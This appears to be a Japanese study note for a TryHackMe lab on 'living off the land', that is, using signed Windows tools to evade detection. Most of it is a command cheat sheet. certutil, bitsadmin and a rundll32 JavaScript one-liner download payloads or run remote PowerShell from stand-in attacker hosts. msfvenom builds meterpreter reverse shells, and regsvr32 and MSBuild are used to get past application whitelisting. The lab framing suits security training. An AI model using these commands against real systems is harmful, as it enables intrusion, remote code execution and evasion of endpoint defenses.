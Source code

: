 # Living Off the Land

https://tryhackme.com/r/room/livingofftheland

OS 標準のツール、または Microsoft 署名付きのツールを使って検出を回避する

## LOLBAS

https://lolbas-project.github.io/

ツールの（本来の用途とは異なる）便利な利用方法が網羅されているプロジェクト

## ファイル操作

ここでファイルダウンロードと書いているのは、ターゲットマシンにダウンロードするという意味。

### certutil

ファイルダウンロード

```ps
certutil -URLcache -split -f http://Attacker_IP/payload.exe C:\Windows\Temp\payload.exe
```

エンコード、デコード

```ps
certutil -encode payload.exe Encoded-payload.txt

certutil -decode Encoded-payload.txt payload.exe
```

### bitsadmin

ファイルダウンロード

```ps
bitsadmin.exe /transfer /Download /priority Foreground http://Attacker_IP/payload.exe c:\Users\thm\Desktop\payload.exe
```

### findstr

SMB 経由でファイルダウンロード

```ps
findstr /V dummystring \\MachineName\ShareFolder\test.exe > c:\Windows\Temp\test.exe
```

## ファイル実行

### explorer

```ps
explorer.exe /root,"C:\Windows\System32\calc.exe"
```

### wmic

```ps
wmic.exe process call create calc
```

### rundll32

```ps
rundll32.exe javascript:"\..\mshtml.dll,RunHTMLApplication ";eval("w=new ActiveXObject(\"WScript.Shell\");w.run(\"calc\");window.close()");
```

Powershell を実行してファイルダウンロードしている

```ps
rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();new%20ActiveXObject("WScript.Shell").Run("powershell -nop -exec bypass -c IEX (New-Object Net.WebClient).DownloadString('http://AttackBox_IP/script.ps1');");
```

## ホワイトリストバイパス

### regsvr32

```shell
# 32bit 版ペイロードを作ることに注意
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<ip> LPORT=443 -f dll -a x86 > live0fftheland.dll

msf6 > use exploit/multi/handler
```

```ps
c:\Windows\System32\regsvr32.exe c:\Users\thm\Downloads\live0fftheland.dll

c:\Windows\System32\regsvr32.exe /s /n /u /i:http://example.com/file.sct Downloads\live0fftheland.dll
```

- 64bit の DLL を作った場合は、C:\Windows\SysWOW64\regsvr32.exe を実行する必要がある。
- 学習環境では機能しなかったので、信頼性は疑問符。

### bash

Windows Subsystem for Linux (WSL) が有効になっている前提

```ps
bash.exe -c <p​​ath-to-payload>
```

## PowerLessShell

ps スクリプトを、Powershell の代わりに、MSBuild を使って実行する。

```shell
git clone https://github.com/Mr-Un1k0d3r/PowerLessShell.git

msfvenom -p windows/meterpreter/reverse_winhttps LHOST=AttackBox_IP LPORT=4443 -f psh-reflection > liv0ff.ps1

msfconsole -q -x "use exploit/multi/handler; set payload windows/meterpreter/reverse_winhttps; set lhost AttackBox_IP;set lport 4443;exploit"

# ペイロードを MSBuild ツールと互換性のあるものに変換
python2 PowerLessShell.py -type powershell -source /tmp/liv0ff.ps1 -output liv0ff.csproj
```

```shell
c:\Windows\Microsoft.NET\Framework\v4.0.30319\MSBuild.exe c:\Users\thm\Desktop\liv0ff.csproj
```
